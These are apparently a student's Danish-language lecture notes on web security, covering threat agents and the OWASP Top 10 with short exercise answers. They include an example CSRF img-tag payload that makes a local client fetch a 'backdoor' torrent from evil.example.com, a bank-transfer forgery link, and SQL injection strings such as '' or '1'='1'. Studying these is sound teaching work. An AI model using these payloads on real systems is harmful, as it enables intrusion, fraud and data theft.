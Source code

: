 Lecture
=======
-

Under læsning:
==============

Noter
-----
Black box
- Er dyrt at gennemgå alt sourcekode, så ofte bedst at analyser systemer via `black box`
- 


### problem 6.1
- threat agents:
    - Hvem er mulig adversary?
    - opdelt i mange subkategorier
        - non-target specific, så som virus
        - employees der er vrede på virksomheden
        - kriminelle
        - andre virksomheder eller organisationer (NSA?)
        - mennesker ved et uheld
        - mennesker med vilje
        - natural, så som jordskæl, brand, osv.
attack vectors:
    - Er en vej eller måde hvorpå en hacker kan opnå adgang til en computer eller server for at udfører et ondsindet angreb. 
security weakness:
    - hvorfor findes denne sårbarhed og hvordan kan de findes? 
technical impact:
    - Hvad kan udkommet være teknisk set? overtagelse af server?
business impact:
    - Hvad kan udkommet være set fra et business synspunkt? ofte tab af data 

### problem 6.2

1. inject
    - sql injection
2. authentication / session management
    - taking over password, keys, sessions tokens....
3. cross-site-scription (XSS)
    - execute scripts in the users browser.
4. Insecure direct object references
    - A direct object reference occurs when a developer exposes a reference to an internal implementation object, such as a file, directory, or database key. Without an access control check or other protection
5. Security misconfiguration
    - fejl i konfigurering af f.eks. frameworks
6. sensitive data exposure
    - credit card, tax ids, authentication credentials og så videre. encrypt!
7. missing function level access control
    - gem functionalitet i UI'en, men bagved bliver brugeren ikke authenticated.
8. Cross-site request forgery (CSRF)
    - også kendt som session riding
    - f.eks. sender link til brugeren der allerede er logget ind "www.bank.dk/transfer?to=adversary&amount=10000
    - kan også udnytte lokale sårbare endpoints som: img src="localhost:8080/gui/?action=add-url&s=http://evil.example.com/backdoor .torrent">
9. Using components with known vulnerabilities
    - Outdated libs/frameworks/software
    - Kan være de kører med for høje privileges, som f.eks. forældret antivirus
10. Unvalidated redirects and forwards
    - adversaries kan redirect brugere til malware sites, som f.eks. via en facebook post.
    
### problem 6.3
- Input tags
- form tags
- common frameworks
- http request headers
- api endpoints such as /api/*
    - specielt post.
- hidden fields

### problem 6.7
VirtueMart version 1.1.2 and below is vulnerable to simple SQL injections
- http://www.waraxe.us/content-71.html

### problem 6.11
- prøv disse input: 
    - '--
    - ' or '1'='1
    - vil resultere i sql strings som:
        - 'SELECT * FROM users WHERE username =’-- <some sql>.
        - 'SELECT * FROM users WHERE username =’’ or ’1’=’1’'.
        
### problem 6.13
- Samme metode som i 6.11

